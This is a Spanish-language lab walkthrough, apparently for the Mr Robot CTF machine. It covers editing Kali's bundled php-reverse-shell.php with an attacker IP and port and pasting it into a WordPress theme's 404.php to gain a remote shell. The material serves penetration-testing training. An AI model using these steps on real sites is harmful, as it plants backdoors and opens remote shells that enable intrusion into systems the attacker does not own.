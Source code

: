 ![Mr Robot](./assets/mrrobot-06.png)

En este punto, debemos buscar cómo obtener el código que nos permita el acceso al sistema o a ejecutar comandos en la máquina vulnerable. 

Volvemos a nuestro escritorio para preparar el código que usaremos para crear la puerta de ataque.

**Inserción de Shell Reversa en la Plantilla 404**

Dado que estamos trabajando con archivos `.php`, utilizaremos una **shell reversa en PHP**. Afortunadamente, Kali Linux incluye scripts de shell reversa en PHP por defecto.

1. Accedemos al directorio donde se encuentran las shells reversas en PHP (y otras):
   ```sh
   $ cd /usr/share/webshells/
   $ ls
     asp  aspx  cfm  jsp  laudanum  perl  php
   $ cd /usr/share/webshells/php
   $ ls
     findsocket   php-reverse-shell.php   simple-backdoor.php   php-backdoor.php   qsd-php-backdoor.php
   ```
2. Editamos el archivo de shell inversa que se adapta a nuestro escenario:
   ```bash
   sudo nano php-reverse-shell.php
   ```
3. Cambiamos la **IP** por nuestra dirección IP (OJO! IP de la máquina atacante, Kali! que es la que escucha) y el **puerto** por uno que deseemos, como el 4646.
   ```sh
   $ip = '10.10.10.3';  // CHANGE THIS (adaptalo a tu red)
   $port = 4646;       // CHANGE THIS
   ```
4. Guardamos el archivo. Para ver el contenido resultante podemos usar el comando `cat`:
   ```sh
   cat php-reverse-shell.php
   ```
5. Copiamos el contenido del archivo `php-reverse-shell.php`...
6. Volvemos a la administración de Wordpress al Editor y reemplazamos el contenido del archivo `404.php` con el código de nuestra shell reversa.
6. Guardamos los cambios presionando **Update File**.

